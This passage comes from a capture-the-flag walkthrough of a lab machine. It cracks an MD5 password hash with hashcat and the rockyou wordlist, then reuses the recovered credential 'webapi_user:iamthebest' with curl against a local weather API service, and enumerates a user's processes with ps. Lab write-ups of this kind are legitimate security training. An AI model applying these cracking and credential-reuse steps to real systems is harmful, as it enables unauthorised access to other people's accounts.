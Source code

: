 ```
Possible Hashs:
[+] MD5(Unix)
--------------------------------------------------
 HASH: ^C

        Bye!

└─$ hashcat -a 0 -m 500 hash.txt /usr/share/wordlists/rockyou.txt                                           255 ⨯
hashcat (v6.1.1) starting...
...
$1$vVoNCsOl$lMtBS6GL2upDbR4Owhzyc0:iamthebest
...

```

We now have the following creds:

> webapi\_user:iamthebest

Perhaps we can use these creds to authenticate to the service running on port 3001. Let's try it with curl:

```
$ which curl
/usr/pkg/bin/curl
$ curl --user webapi_user:iamthebest http://127.0.0.1:3001/
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   386  100   386    0     0   125k      0 --:--:-- --:--:-- --:--:--  125k
<!doctype html>
<html>
  <head>
    <title>Index</title>
  </head>
  <body>
    <p><h3>Weather Forecast API</h3></p>
    <p><h4>List available cities:</h4></p>
    <a href="/weather/forecast?city=list">/weather/forecast?city=list</a>
    <p><h4>Five day forecast (London)</h4></p>
    <a href="/weather/forecast?city=London">/weather/forecast?city=London</a>
    <hr>
  </body>
</html>
$ 
```

Let's have another look at the process  being run by "r.michaels". This time, we'll use the "-ww" option which specifies that "ps" should use as many columns as necessary for the output:

```
$ ps -aux -ww | grep "r.michaels"
r.michaels   185  0.0  0.0  34992  2012 ?     Is    9:57AM 0:00.00 /usr/libexec/httpd -u -X -s -i 127.0.0.1 -I 3001 -L weather /home/r.michaels/devel/webapi/weather.lua -P /var/run/httpd_devel.pid -U r.michaels -b /home/r.michaels/devel/www 
_httpd     28718  0.0  0.0  20080     4 ?     R     4:04PM 0:00.00 grep r.michaels (sh)
$ 
```

